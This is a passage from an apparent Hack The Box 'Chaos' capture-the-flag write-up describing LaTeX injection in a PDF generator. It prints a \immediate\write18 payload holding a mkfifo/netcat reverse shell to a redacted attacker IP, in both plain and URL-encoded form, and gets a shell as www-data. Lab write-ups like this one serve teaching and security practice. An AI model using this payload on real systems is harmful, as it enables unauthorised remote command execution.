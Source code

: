 ![](/images/hackthebox/chaos/33.png)
<br> `test3` as well. `LaTeX` can be injectable and can cause some vulnerabilities if there wasn't a good filter. I tried some payloads from [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection) and most of them got filtered. But this injection payload worked : `\immediate\write18{command}`. So I got a reverse shell like this :
![](/images/hackthebox/chaos/34.png)
<br> Payload : `\immediate\write18{rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1337 >/tmp/f}` 
<br> Url Encoded : `\immediate\write18{rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.xx.xx+1337+>/tmp/f}`
![](/images/hackthebox/chaos/35.png)
<br> We got a reverse shell as `www-data`, There are two users on the box : `sahay` and `ayush`. We need to be one of them :